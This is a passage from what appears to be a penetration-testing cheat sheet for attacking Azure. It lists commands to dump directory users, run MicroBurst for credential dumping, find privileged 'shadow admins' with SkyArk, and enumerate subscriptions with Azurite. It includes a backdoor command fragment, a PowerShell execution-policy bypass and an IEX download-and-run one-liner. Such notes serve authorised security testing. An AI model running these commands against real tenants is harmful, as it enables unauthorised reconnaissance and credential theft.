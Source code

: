    # Administrator
    $ Create-Backdoor, Execute-Backdoor
    ```

* **Azure CLI** - Default azure CLI
    ```powershell
    $ AZ_REPO=$(lsb_release -cs) echo "deb [arch=amd64] https://packages.microsoft.com/repos/azure-cli/ $AZ_REPO main" | sudo tee /etc/apt/sources.list.d/azure-cli.list
    $ curl -L https://packages.microsoft.com/keys/microsoft.asc | sudo apt-key add -
    $ sudo apt-get install apt-transport-https
    $ sudo apt-get update && sudo apt-get install azure-cli
    # dump users
    $ az ad user list --output=table --query='[].{Created:createdDateTime,UPN:userPrincipalName,Name:displayName,Title:jobTitle,Department:department,Email:mail,UserId:mailNickname,Phone:telephoneNumber,Mobile:mobile,Enabled:accountEnabled}'
    ```

* **MicroBurst** - MicroBurst includes functions and scripts that support Azure Services discovery, weak configuration auditing, and post exploitation actions such as credential dumping
    ```powershell
    $ git clone https://github.com/NetSPI/MicroBurst
    PS C:> Import-Module .\MicroBurst.psm1
    PS C:> Import-Module .\Get-AzureDomainInfo.ps1
    PS C:> Get-AzureDomainInfo -folder MicroBurst -Verbose
    ```

* **SkyArk** - Discover the most privileged users in the scanned Azure environment - including the Azure Shadow Admins.   
    Require:
    - Read-Only permissions over Azure Directory (Tenant)
    - Read-Only permissions over Subscription
    - Require AZ and AzureAD module or administrator right

    ```powershell
    $ git clone https://github.com/cyberark/SkyArk
    $ powershell -ExecutionPolicy Bypass -NoProfile
    PS C> Import-Module .\SkyArk.ps1 -force
    PS C> Start-AzureStealth

    or in the Cloud Console

    PS C> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cyberark/SkyArk/master/AzureStealth/AzureStealth.ps1')  
    PS C> Scan-AzureAdmins  
    ```

* **Azurite Explorer** and **Azurite Visualizer** : Enumeration and reconnaissance activities in the Microsoft Azure Cloud.

    ```powershell
    git clone https://github.com/mwrlabs/Azurite.git
    git clone https://github.com/FSecureLABS/Azurite
    git submodule init
    git submodule update
    PS> Import-Module AzureRM
    PS> Import-Module AzuriteExplorer.ps1
    PS> Review-AzureRmSubscription
    PS> Review-CustomAzureRmSubscription
    ```
